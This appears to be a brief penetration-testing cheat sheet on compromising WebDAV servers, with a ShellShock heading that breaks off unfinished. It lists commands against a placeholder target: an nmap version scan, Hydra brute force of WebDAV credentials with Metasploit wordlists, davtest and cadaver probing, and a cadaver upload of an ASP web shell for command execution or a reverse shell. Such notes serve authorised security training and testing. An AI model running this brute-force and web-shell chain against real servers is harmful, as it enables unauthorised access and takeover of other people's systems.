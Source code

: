 # WebDav
NOTE: Will need credentials, webdav implements authentication (username: password) - Brute Force Requred (Hydra/Metasploit)

Is it configured to run on IIS? 
Post gaining legit credentials, upload a malicious asp payload that can be used to execute commands or gain reverse shell

## Scan to see version being ran
nmap -sV -p 80 --script=http-enum TARGET

## Brute Force for Credentials 
Hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt TARGET http-get /webdav/

Davtest -auth user:password -url http://TARGET/webdav

Cadaver http://TARGET/webdav
Add Webshell: put /usr/share/webshells/asp/webshell.asp

# ShellShock
(Scan to check if vulnerable) 
